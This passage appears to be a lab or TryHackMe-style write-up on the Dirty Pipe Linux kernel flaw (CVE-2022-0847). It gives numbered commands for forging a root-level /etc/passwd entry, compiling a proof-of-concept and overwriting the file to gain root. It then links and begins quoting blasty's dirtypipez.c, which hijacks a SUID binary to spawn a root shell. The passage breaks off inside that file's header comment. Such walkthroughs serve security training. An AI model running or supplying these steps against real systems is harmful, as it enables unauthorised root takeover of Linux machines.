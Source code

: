 Due to this, we need to find an important file that we have **read** access to; for example the /etc/passwd file.

### Overwriting the /etc/passwd file contents

1. Generate a SHA512Crypt Hash
	`openssl passwd -6 --salt THM "<new password>"`
2. Create /etc/passwd formatted line
	`USERNAME:HASH:0:0::/root:/bin/bash`
3. Find the offset for a user in the /etc/passwd file
	`grep -b "<username>" /etc/passwd`
4. Compile Exploit from c
	`gcc poc.c -o exploit`
5. Backup the /etc/passwd to /tmp
	`cp /etc/passwd /tmp/passwd`
6. Run the exploit (New line before closing quote is important)
	```
./exploit /etc/passwd <byte offset> 'USERNAME:HASH:0:0::/root:/bin/bash
`
```
7. Swap into the new user
	`su - <username>`

## Alternative Exploit
Another exploit written by Twitter user @bl4sty takes this arbitrary file write one stage further by writing to a SUID program without losing the SUID bit.

An example of this is injecting shellcode into /bin/su which is then executed with the permissions of the privileged user (ie. root).

This code forces the SUID binary to create a backdoor binary in the /tmp directory which also has a SUID bit.

Source Code: [Direct Download - dirtypipez.c](https://haxx.in/files/dirtypipez.c)
```c
//
// dirtypipez.c
//
// hacked up Dirty Pipe (CVE-2022-0847) PoC that hijacks a SUID binary to spawn
// a root shell. (and attempts to restore the damaged binary as well)
//
// Wow, Dirty CoW reloaded!
//
// -- blasty <peter@haxx.in> // 2022-03-07

/* SPDX-License-Identifier: GPL-2.0 */
/*
 * Copyright 2022 CM4all GmbH / IONOS SE
 *
 * author: Max Kellermann <max.kellermann@ionos.com>
 *
 * Proof-of-concept exploit for the Dirty Pipe
 * vulnerability (CVE-2022-0847) caused by an uninitialized
 * "pipe_buffer.flags" variable.  It demonstrates how to overwrite any
 * file contents in the page cache, even if the file is not permitted
 * to be written, immutable or on a read-only mount.
 *
 * This exploit requires Linux 5.8 or later; the code path was made
 * reachable by commit f6dd975583bd ("pipe: merge
 * anon_pipe_buf*_ops").  The commit did not introduce the bug, it was
 * there before, it just provided an easy way to exploit it.
 *
 * There are two major limitations of this exploit: the offset cannot
 * be on a page boundary (it needs to write one byte before the offset
```